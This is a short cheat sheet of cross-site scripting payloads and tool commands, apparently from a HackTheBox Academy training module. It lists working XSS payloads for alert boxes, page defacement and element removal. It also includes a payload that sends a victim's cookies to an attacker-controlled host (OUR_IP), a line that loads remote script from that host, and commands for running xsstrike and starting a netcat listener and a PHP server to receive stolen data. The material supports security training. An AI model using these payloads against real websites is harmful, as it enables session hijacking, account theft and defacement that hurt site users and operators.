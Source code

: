 # XSS Payloads

| Code                                             | Description                                    |
|--------------------------------------------------|------------------------------------------------|
| `<script>alert(window.origin)</script>`         | Basic XSS Payload                              |
| `<plaintext>`                                    | Basic XSS Payload                              |
| `<script>print()</script>`                       | Basic XSS Payload                              |
| `<img src="" onerror=alert(window.origin)>`      | HTML-based XSS Payload                         |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color             |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image     |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title               |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body   |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element      |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script                   |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us  |

# Commands

| Code                                                                                       | Description                                |
|--------------------------------------------------------------------------------------------|--------------------------------------------|
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                         | Run xsstrike on a url parameter            |
| `sudo nc -lvnp 80`                                                                         | Start netcat listener                      |
| `sudo php -S 0.0.0.0:80`                                                                   | Start PHP server                           |
